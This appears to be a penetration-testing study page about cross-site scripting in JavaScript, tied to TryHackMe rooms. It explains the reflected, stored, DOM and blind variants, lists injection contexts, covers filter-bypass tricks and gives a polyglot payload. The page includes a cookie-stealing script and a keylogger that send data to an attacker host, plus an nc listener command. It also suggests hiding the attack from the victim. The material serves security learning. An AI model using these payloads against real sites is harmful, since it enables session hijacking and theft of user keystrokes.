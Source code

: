 # XSS vulnerabilities (Javascript)

[![xssgi](../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xssgi](../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)

<div class="row row-cols-md-2"><div>

Cross-site Scripting, most commonly called **XSS**, refer to injecting malicious JavaScript in a web application with the goal of it being executed by other users.

**The usual proof of concept**: show an alert if the script was executed.

```js
<script>alert('XSS')</script>
```

I think you would enjoy more

```js
<script>console.log('XSS')</script>
```

You will most likely use these references:

* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) (42.5k ⭐)
* [OWASP Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html) (22k ⭐)
* [OWASP DOM XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html) (22k ⭐)

<br>

One thing to remember is that you would rather make it invisible to the user that a script is being executed in its browser. As such, if you inject a malicious payload in the source attribute of an image field, it would be best to still make sure an image is properly displayed, so that it does not look suspicious at first glance.

</div><div>

<p class="text-center">Some attacks</p>

**Session hijacking**: anyone executing this script will send their cookie to a malicious website owned by the hacker used to capture cookies. The script is using `btoa()` to encode in base64 the values. Sessions cookies are gold 💰, because with them, we can simulate that we are logged, and bypass verifications such as 2FA.

```html
<script>fetch('https://hacker.website/hijack?cookie=' + btoa(document.cookie));</script>
<!--
CTF: nc -nlvp port | And use the ip:port
Decode: sed -n 's/GET \/?cookie=\(.*\)/\1/p' request | base64 -d
-->
<script>fetch('http://ip:port/?cookie=' + btoa(document.cookie));</script>
```

**A keylogger**: send keys pressed to the hacker website. The script is using `btoa()` to encode in base64 the values.

<details class="details-n">
<summary>See code</summary>

```html
<script>
    let keys = ''
    document.onkeydown = e => keys += e.key
    setInterval(() => {
        if (keys === '') return
        fetch('https://hacker.website/keylogger?key=' + btoa(keys) )
        keys = ''
    }, 1000)
</script>
```
</details>

* Exploit the client privileges to query the website API if any
* Map open ports on the target
* ...

> See [XSS-payloads](http://www.xss-payloads.com/payloads-list.html?a#category=all) for more exploits, but it's a bit old.
</div></div>

<hr class="sl">

## Reflected XSS

<div class="row row-cols-md-2"><div>

The malicious code is usually inside a URL, and the vulnerable website when loading the URL, will execute the malicious website.
</div><div>

For instance, "https://vulnerable.search.engine" is a search engine in which the query is stored in the URL in the parameter `q`. The website is vulnerable to XSS, so if we open the URL, then the javascript will run in our browser.

```
https://vulnerable.search.engine/?q=%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E
```
</div></div>

<hr class="sr">

## Stored XSS

<div class="row row-cols-md-2"><div>

The malicious code is stored by the website, usually in a database. Then, in another page loading the data from the database, a vulnerable website will execute the malicious code.

> Comments, profiles, listings... may be vulnerable.
</div><div>

For instance, a user using the value `<script>alert('XSS');</script>` as username. Then, for instance on the vulnerable profile page, any user opening a link to the compromised profile, will execute the malicious code.
</div></div>

<hr class="sl">

## DOM Based XSS

<div class="row row-cols-md-2"><div>

DOM Based XSS mean using the document events such as when a tag is loaded, when an image is hovered, and so on, to execute javascript. It should be viewed as something used by both Reflected and Stored XSS when we can't use the TAG `<script>`.
</div><div>

```html
<img src="https://duckduckgo.com/assets/logo_homepage.alt.v108.svg"
     onload="alert('XSS#load')"
     onerror="alert('XSS#error')"
     onmouseover="alert('XSS#hover')"
/>
```
</div></div>

<hr class="sr">

## Blind XSS

<div class="row row-cols-md-2"><div>

In blind XSS, you are usually sending a payload in a contact/support... forms, in order to maybe steal information from the admin-side website if any. We are calling it "blind XSS", because it's not possible to see if it's working.
</div><div>

See [xsshunter](https://github.com/mandatoryprogrammer/xsshunter) (1.2k ⭐)
</div></div>

<hr class="sl">

## XSS payloads

<table class="table table-bordered table-striped border-dark mt-4">
<thead>
<tr><th>Case</th><th>HTML</th><th>Payload</th></tr>
</thead>
<tbody>

<tr><td>Boxed attribute</td><td><code>&lt;input value="here"&gt;</code></td><td><code>">MaliciousCodeHere</code></td></tr>

<tr><td>Unboxed attribute</td><td><code>&lt;input value=here&gt;</code></td><td><code>>MaliciousCodeHere</code></td></tr>

<tr><td>Wrapped</td><td><code>&lt;textarea>here&lt;/textarea&gt;</code></td><td><code>&lt;/textarea&gt;MaliciousCodeHere</code></td></tr>

<tr><td>JavaScript</td><td><code>xxx.innerHTML = 'here';</code></td><td><code>';MaliciousCodeHere;//</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onload="maliciousCodeHere"</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onerror="maliciousCodeHere"</code></td></tr>

</tbody></table>

<hr class="sr">

## Bypass filters

<div class="row row-cols-md-2"><div>

**Logic flaw**

For instance, a dropdown in which a user is supposed to pick a country. A hacker can try to inject a malicious payload instead of a country. If the developer didn't check the field because the value were supposedly limited to the one the developer picked, then we have a logic flaw.

**Bypass HTML symbols filtering**

If `<`, and `>` are filtered, an attacker may still use DOM Based XSS.

**Bypass DOM Based Filtering**

If there is a filter removing every attribute such as `onload`, `onmouseover`... Then you could try variants as HTML is case-insensitive.

```html
<img src="" ONERROR="alert('XSS')" />
```

</div><div>

**Bypass keywords filtering**

Most functions to filter something will only pass on the text once. It means that if the hacker know that something is filtered, he may create a payload that is only working after being filtered. For instance, below the filter will remove the "&lt;script&gt;", so the "&lt;s" and the "cript&gt;" will be concatenated, effectively bypassing the filter.

```html
<s<script>cript>alert('XSS');</s<script>cript>
// filter remove "<script>"
<script>alert('XSS');</script>
```

You can also try variants if the filter is case-sensitive

```html
<scIpT>alert('XSS');</scIpT>
```

Another way of bypassing keyword filtering is using alternate forms. For instance, with the function `alert`, we could do.

```html
<img src="NOT_FOUND" onerror="eval('aler'+'t')('XSS')">
<!-- unicode in HTML with &# \u -->
<img src="NOT_FOUND" onerror=&#X61;&#X6C;&#X65;&#X72;&#X74;('XSS')>
<!-- unicode with \u -->
<img src="NOT_FOUND" onerror=\u0061lert('XSS')>
```
</div></div>

<hr class="sl">

## Polyglots - the magic payloads

<div class="row row-cols-md-2"><div>

XSS polyglots are sort of magic payloads designed to bypass many tags/attributes/filters/... at once.
</div><div>

An example

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```
</div></div>